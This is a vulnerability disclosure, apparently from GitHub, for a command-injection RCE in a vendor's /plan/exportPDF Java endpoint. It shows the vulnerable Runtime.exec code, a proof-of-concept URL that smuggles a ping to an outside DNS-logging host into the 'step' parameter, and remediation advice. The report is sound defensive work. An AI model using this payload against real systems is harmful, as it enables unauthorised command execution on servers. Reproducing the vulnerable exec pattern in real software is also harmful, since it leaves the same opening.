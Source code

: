 ![image-20250225202128301](./assets/image-20250225202128301.png)

# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title: Remote Command Execution (RCE) in PDF Export Functionality
### Summary:
The code snippet provided contains a vulnerability that allows for Remote Command Execution (RCE) due to improper handling of user input in the exportPDF function.

### Affected Endpoint:
`/plan/exportPDF`

### Vulnerability Type:
Remote Command Execution (RCE)

### Vulnerable Code:
```java
@RequestMapping({"/plan/exportPDF"})
public void exportPDF(HttpServletResponse response, @RequestParam("id") Long id, @RequestParam("step") String step) {
   try {
      Runtime run = Runtime.getRuntime();
      String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
      String fileName = System.currentTimeMillis() + ".pdf";
      String filePath = rootPath + "/pdffile/" + fileName;
      File dir = new File(rootPath + "/pdffile/");
      if (!dir.exists()) {
         dir.mkdir();
      }

      Process process = run.exec("wkhtmltopdf --page-size A3 "
              + CommonConstants.contextPath
              + "/plan/infoExportPDF?id="
              + id + "&step="
              + step + " "
              + filePath);
      process.waitFor();
      response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
      InputStream in = new FileInputStream(new File(filePath));
      int len = false;
      byte[] buf = new byte[1024];
      OutputStream out = response.getOutputStream();

      int len;
      while((len = in.read(buf)) > 0) {
         out.write(buf, 0, len);
      }

      in.close();
   } catch (Exception var14) {
      logger.error("---------------------" + var14);
   }

}
```

### Proof of Concept (PoC):
```
http://uri/plan/exportPDF?id=1&step=;ping 490b6a1c.log.dnslog.sbs.;
```

![image-20250225210630755](./assets/image-20250225210630755.png)

### Impact:

An attacker can exploit this vulnerability by injecting arbitrary commands in the 'step' parameter of the URL, leading to the execution of unauthorized commands on the server hosting the application.

### Recommendation:
1. Validate and sanitize user input to prevent command injection vulnerabilities.
2. Avoid using user input directly in command execution functions.
3. Implement proper input validation and output encoding to mitigate such vulnerabilities.
4. Regularly update and patch third-party libraries to prevent known vulnerabilities.

### Conclusion:
The presence of this RCE vulnerability in the exportPDF function could lead to severe security risks for the application and its users. It is crucial to address this issue promptly to prevent potential exploitation by malicious actors.

### References:
- OWASP Command Injection: https://owasp.org/www-community/attacks/Command_Injection

